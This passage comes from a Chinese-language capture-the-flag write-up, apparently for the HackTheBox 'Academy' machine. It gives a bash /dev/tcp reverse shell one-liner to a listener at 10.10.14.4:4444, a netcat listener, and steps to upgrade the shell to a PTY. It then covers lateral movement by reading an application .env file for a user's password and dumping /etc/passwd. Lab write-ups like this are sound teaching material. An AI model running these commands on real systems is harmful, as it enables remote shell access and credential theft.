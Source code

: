![image](https://hackmd.io/_uploads/BJhmeI7kle.png)
- Reverse shell（開 listener，執行 reverse shell)
shell 1: `bash -c 'bash -i >& /dev/tcp/10.10.14.4/4444 0>&1'`
:::success
bash -c '...'
- 叫 Bash 執行引號內的內容（可以是任何 Bash 指令）。

'bash -i'
- 啟動一個 interactive bash shell。
- -i 的意思是「互動式」，允許你輸入指令、得到輸出，像在終端機一樣。

/ >& /dev/tcp/10.10.14.4/4444
- 把「標準輸出」（stdout）和「標準錯誤」（stderr）都重定向到 TCP 連線。
- /dev/tcp/10.10.14.4/4444 是 Bash 的一個特殊裝置，可以直接讓 bash 建立 TCP 連線！

0>&1
- 把「標準輸入」也重定向到這個 TCP 連線。
- 換句話說，整個 shell 的輸入輸出都透過這條 TCP 傳回去。
:::
shell 2: `nc -lvnp 4444`
:::success


| 參數 | 說明 |
| -------- | -------- |
| nc |  Netcat  |
| -l | listen 可以監聽某個 port|
| -v | verbose 把執行過程講清楚（會顯示連線接收的狀態）|
| -n | no DNS 不查詢主機名稱 |
| -p | 4444port 自定義的port 目標把機會打回來4444 |

:::

![image](https://hackmd.io/_uploads/HyTPx8X1lx.png)

- 升級成交互式的 shell
`python3 -c 'import pty; pty.spawn("/bin/bash")'`
啟動一個「偽終端機（PTY）」，模擬出終端介面。
`export TERM=xterm`
`stty raw -echo`
`fg`
raw：讓終端直接傳遞輸入，防止「預處理」。
echo：讓輸入時不會把你打的東西再顯示一次。
把 shell 放回「前台」。
![image](https://hackmd.io/_uploads/r1NwtcQ1xl.png)

## 4. Lateral Movement 橫移


- `cat /var/www/html/academy/.env` 取得.env 之後根據題目提示可以知道是cry0l1t3這名用戶的密碼
![image](https://hackmd.io/_uploads/H1u4qqX1gg.png)
:::warning
- 我有一個奇怪的問題如果沒有題目提示的 User 還有辦法提權嗎
![image](https://hackmd.io/_uploads/rJ4RGJ81gg.png)
![image](https://hackmd.io/_uploads/Bkju5sXklx.png)
```=
www-data@academy:/var/www/html/htb-academy-dev-01/public$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
```